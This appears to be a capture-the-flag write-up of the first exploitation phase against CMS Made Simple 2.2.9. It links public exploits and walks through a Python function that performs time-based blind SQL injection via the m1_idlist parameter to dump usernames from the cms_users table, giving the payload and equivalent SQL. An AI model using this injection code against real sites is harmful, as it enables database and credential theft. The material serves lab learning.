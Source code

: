 ####
####
####
## First explotation phase
### SQLI
At the moment to looking for exploit for this version service, we discovered two options: 
####
- Exploits:
  - [Authenticated-RCE-OBI](https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce) 
  - [CMS-SQL-Injection](https://www.exploit-db.com/exploits/46635) 
####
<div class="warning">

> **CMS Made Simple** version **2.2.9** is vulnerable to SQLi [SQL Injection], which can be exploited to extract sensitive information from the database. Additionally, there are other vulnerabilities affecting earlier versions of CMS Made Simple, such as RCE [Remote code execution] and XSS [Cross-site scripting] issues.
</div>

####
The *RCE* is based in authenticated user, so we need to have valid credentials, the other seem to have a better aproximation beacause **dump** the `user`, `password` and `salt`. Next we will explain how work this script. The most importar in all cases are the **username** and **password**.
####
We already now a hint, `/writeup` directory, so we will try execute this fill pointing to this directory. The script craft a **function** to dump the data:
####
```python
def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True
```
####
The payload look like this SQL query:
####
```sql
SELECT sleep(1) FROM cms_users WHERE username LIKE 0x{dictionary[i]}25 AND user_id LIKE 0x31--
```
####